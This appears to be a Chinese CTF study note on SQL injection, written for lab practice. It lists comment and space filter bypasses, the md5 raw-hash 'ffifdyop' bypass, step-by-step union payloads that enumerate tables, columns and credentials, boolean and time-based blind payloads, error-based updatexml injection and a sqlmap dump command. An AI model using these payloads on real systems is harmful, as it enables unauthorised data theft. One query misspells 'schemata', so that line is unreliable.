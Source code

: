 # CTF WEB SQL

漏洞原理：

脚本代码在实现代码与数据库进行数据通讯时，将定义的SQL语句进行执行查询数据时。其中的SQL语句能够通过参数传递的自定义的值来实现控制SQL语句，从而执行恶意的SQL语句，可以实现查询其他数据（如数据库中的敏感数据，管理员账号密码等）。

## Tips

### 常用绕过

- #、--+等注释符号

  %23

- 空格

  /**/

- =

  like

- or

  ||

- md5+sql绕过
- select * from 'admin' where password=md5($pass,true)
- 传入 password=ffifdyop 即可 原理如下
- ![image-20240930135944536](CTF WEB SQL.assets/image-20240930135944536.png)

### 回显位数不够

- 使用截断函数进行绕过

  例如group_concat(flag)为输出flag语句，可以使用substr，right，REVERSE，mid进行绕过

  mid举例MID( column_name ,start[,length])

  

## SQL-LABS

1. 先找到是数字型注入还是字符型注入 并判断闭合符

	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

	?id=1' and 1=2--+ -> 判断‘是否为闭合符

	简单粗暴一点：就是直接看回显有没有报错

	找到之后还可以试试万能钥匙（以单引号为闭合符为例）

	?id = a' or true#

2. 找到回显位

	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

```
union select 1,database(),group_concat(table_name)from information_schema.tables where table_schema=database()--+
```



4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

   ```
   union select 1,database(),group_concat(column_name)from information_schema.columns where table_name='fl4g'--+
   ```

   

5. 最后利用select从列名中找到flag

   union select 1,database(),group_concat(fllllag)from fl4g--+

6. 跳过过滤：

   空格：转换为/**/

   union：双写为ununionion

#### 跨库注入

1. 先找到指定的库的名字

   ```sql
   union select schema_name,2,3 from information_schema.schmata
   ```

   假设获取的是库名是admin114514

2. 再同上利用范式获取表名即可 但是需要注意命令的差异

   ```sql
   union select 1,group_concat(table_name)from information_schema.tables where table_schema='admin114514'--+
   ```

   假设我们获取的表名是fl4g

3. 同上获取列名

   假设我们获取的列名是fllllag

4. 获取指定数据

   假设我们要获取的是列fllllag中的password数据

   ```sql
   union select 1,password from fl4g.fllllag--+
   ```

   

​	

#### sqlite注入

[sqlite注入的一点总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8627?u_atoken=100bccca0fa7b41dc93d4d361afe51c9&u_asig=1a0c39a017268046181531556e0035)

#### 布尔盲注

3. 布尔盲注（回显为you are in....）

   ```php
   ?id=1'and length((select database()))>9--+
   #大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
   ?id=1'and ascii(substr((select database()),1,1))=115--+
   #substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
    
    
   ?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
   判断所有表名字符长度。
   ?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
   逐一判断表名
    
   ?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
   判断所有字段名的长度
   ?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
   逐一判断字段名。
    
    
   ?id=1' and length((select group_concat(username,password) from users))>109--+
   判断字段内容长度
   ?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
   逐一检测内容。
    
    
    
   ```
   
   时间盲注（无论输入什么东西回显都一样）
   
   ```php
   ?id=1' and if(1=1,sleep(5),1)--+
   判断参数构造。
   ?id=1'and if(length((select database()))>9,sleep(5),1)--+
   判断数据库名长度
    
   ?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
   逐一判断数据库字符
   ?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
   判断所有表名长度
    
   ?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
   逐一判断表名
   ?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
   判断所有字段名的长度
    
   ?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
   逐一判断字段名。
   ?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
   判断字段内容长度
    
    
    
   ?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
   逐一检测内容。
   ```
   

#### 报错注入

- **当网站开启错误调试信息时可用此方法注入（不然只能盲注）**

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可

#### sqlmap

python sqlmap.py -u "http://node4.anna.nssctf.cn:28366/?id=1" --dump



#### 偏移注入

- **在我们只能猜解出表名，而猜解不出我们所想要的字段名的情况下，直接爆最后的字段数据。**

  适用于Microsoft Access数据库（没有`information_schema`数据库）

